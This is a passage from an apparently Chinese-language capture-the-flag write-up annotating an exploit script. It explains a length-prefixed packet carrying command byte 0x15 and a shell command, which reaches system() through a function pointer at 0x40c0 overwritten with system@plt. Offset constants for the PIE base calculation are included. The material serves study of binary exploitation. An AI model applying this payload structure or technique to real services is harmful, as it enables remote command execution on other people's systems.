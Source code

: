 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\begin{document}
\begin{itemize}
\tightlist
\item
  這是 \texttt{exploit.\allowbreak{}py}
  真正送出的那一封：\texttt{cb.\allowbreak{}cmd(b\textquotesingle{}\allowbreak{}\textbackslash{}\allowbreak{}x15\textquotesingle{}\allowbreak{}\ \allowbreak{}+\ \allowbreak{}shell\_\allowbreak{}cmd)}。
\item
  最前面的 2 bytes 是 \textbf{big-endian
  長度前綴}，算的是「長度前綴\textbf{之後}的全部 bytes」 （含 cmd 那 1
  byte）：\texttt{70\ \allowbreak{}+\ \allowbreak{}1\ \allowbreak{}=\ \allowbreak{}71\ \allowbreak{}=\ \allowbreak{}0x47} ⇒ 前綴是 \texttt{00\ \allowbreak{}47}。
  （如果只想示範最小案例
  \texttt{b\textquotesingle{}\allowbreak{}\textbackslash{}\allowbreak{}x15\textquotesingle{}\allowbreak{}\ \allowbreak{}+\ \allowbreak{}b\textquotesingle{}\allowbreak{}/\allowbreak{}bin/\allowbreak{}sh\textbackslash{}\allowbreak{}0\textquotesingle{}\allowbreak{}}，長度會是
  \texttt{2\ \allowbreak{}+\ \allowbreak{}1\ \allowbreak{}+\ \allowbreak{}8\ \allowbreak{}=\ \allowbreak{}11\ \allowbreak{}=\ \allowbreak{}0x0b}， 但本題不建議這樣做，見 §9 坑
  12。）
\item
  \texttt{0x15} 之後的整段字串會被 \texttt{\_\allowbreak{}\_\allowbreak{}memcpy\_\allowbreak{}chk} 複製到
  \texttt{rsp+0x1030} 並補上
  \texttt{\textquotesingle{}\allowbreak{}\textbackslash{}\allowbreak{}0\textquotesingle{}\allowbreak{}}，
  再當成 \texttt{rdi} 傳給 \texttt{{[}0x40c0{]}}（此時已經是
  \texttt{system@plt}）⇒ \texttt{system(整條指令)}。
\end{itemize}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsubsection{\texorpdfstring{7. \texttt{exploit.\allowbreak{}py}
逐行註解}{7. exploit.py 逐行註解}}\label{exploit.py-ux9010ux884cux8a3bux89e3-2}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{OFF\_FUNC\_PTR }\OperatorTok{=} \BaseNTok{0x40c0}      \CommentTok{\# 被 cmd 0x15 呼叫的函式指標（我們的攻擊目標）}
\NormalTok{OFF\_STUB     }\OperatorTok{=} \BaseNTok{0x1390}      \CommentTok{\# endbr64; ret：main 一開始塞進 [0x40c0] 的值 ⇒ 可用來算 PIE base}
\NormalTok{OFF\_SYSTEM   }\OperatorTok{=} \BaseNTok{0x1150}      \CommentTok{\# system@plt}
\NormalTok{SBOX\_OFF     }\OperatorTok{=} \BaseNTok{0x2040}      \CommentTok{\# 檔案內 0x2040 就是 .rodata 的 256{-}byte S{-}box}
\end{Highlighting}
\end{Shaded}
\end{document}

